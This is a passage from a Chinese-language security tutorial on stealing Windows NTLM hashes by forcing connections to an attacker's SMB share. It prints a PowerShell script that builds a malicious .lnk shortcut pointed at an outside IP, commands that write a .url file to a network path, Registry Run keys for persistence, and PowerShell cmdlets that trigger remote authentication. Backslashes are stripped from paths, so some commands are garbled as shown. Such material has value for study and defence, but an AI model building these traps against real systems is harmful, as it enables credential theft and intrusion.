 下面是对应的Powershell版：



```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("StealMyHashes.lnk")
$lnk.TargetPath = "\35.164.153.224@OsandaMalith"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%system32shell32.dll, 3"
$lnk.Description = "I will Steal your Hashes"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0166c0eded23d84861.png)

<br>

**Internet快捷方式(.url)**

另一个可以利用的快捷方式是Internet快捷方式，你可以将下面的代码存储为“.url”文件：



```
echo [InternetShortcut] &gt; stealMyHashes.url 
echo URL=file://192.168.0.1/@OsandaMalith &gt;&gt; stealMyHashes.url
```



**<br>**

**注册表自动运行**

可以在下列路径中添加一个新的注册表项：



```
HKEY_LOCAL_MACHINESoftwareMicrosoftWindowsCurrentVersionRun
HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionRun
HKEY_LOCAL_MACHINESoftwareMicrosoftWindowsCurrentVersionRunOnce
HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionRunOnce
```

需要添加的内容如下：

[![](https://p0.ssl.qhimg.com/t01eb58c00929efd476.png)](https://p0.ssl.qhimg.com/t01eb58c00929efd476.png)

<br>

**Powershell**

在Powershell中，存在很多可以解析网络路径的小脚本，部分利用方法如下：



```
Invoke-Item \192.168.0.1aa
Get-Content \192.168.0.1aa
Start-Process \192.168.0.1aa
```
